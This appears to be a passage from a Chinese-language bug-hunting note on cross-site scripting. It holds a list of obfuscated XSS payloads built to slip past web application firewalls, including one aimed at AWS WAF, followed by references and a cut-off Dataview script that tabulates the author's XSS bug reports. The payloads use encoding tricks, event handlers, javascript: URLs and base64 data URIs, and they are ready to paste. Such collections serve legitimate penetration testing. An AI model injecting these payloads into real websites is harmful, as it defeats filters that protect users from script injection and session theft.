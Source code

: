 ```

<svg/onload=self[`aler`%2b`t`]`1`>

%3Cimg%

2Fsrc%3D%22x%22%2Fonerror%3D%22prom%5Cu0070t%2526%2523x28%3B%2526%2523x27%3B%2526%2523x58%3B%2526%2523x53%3B%2526%2523x53%3B%2526%2523x27%3B%2526%2523x29%3B%22%3E

<iframe/onload='this["src"]="javas&Tab;cript:al"+"ert``"';>

<img/src=q onerror='new Function`al\\ert\\`1\\``'>

<object data='data:text/html;;;;;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg=='></object>
```

7. AWS

```
<script>eval(atob(decodeURIComponent(confirm`1`)))</script>
```

> 如果您想查看其他WAF的负载，请查看此链接。

### 参考资料

*   Brute Logic
*   Awesome-WAF
*   一些随机的Twitter帖子


## 案例

```dataviewjs
let tableData = [];

// 获取具有标签 #xss 的文件路径
for (let note of dv.pagePaths('"Bughunter-report" and #xss')) {
    dv.io.load(note).then((fileContent) => {
        if (fileContent !== undefined) {
            // 将文件内容按行分割成数组
            let lines = fileContent.split('\n');
            let Markdown = dv.fileLink(note)
            let title = ''; // 存储二级标题作为 "Title"
            let summaryContent = '';
            let stepContent = '';
            let impactContent = '';
				let count = 0;
            // 存储当前正在处理的三级标题
            let currentSection = '';

            // 遍历每一行文本
            for (let i = 0; i < lines.length; i++) {
                let line = lines[i];
                if (line.startsWith('## ') && lines[i + 1] && lines[i + 1].includes('#xss')) {
                    // 如果是满足条件的二级标题，将其作为 "Title"
                    title = line.replace('## ', '');
                    continue;
                } else if (line.startsWith('### Summary')) {
                    currentSection = 'Summary';
                    summaryContent = '';
                } else if (line.startsWith('### Step')) {
                    currentSection = 'Step';
                    stepContent = '';
                } else if (line.startsWith('### Impact')) {
                    currentSection = 'Impact';
```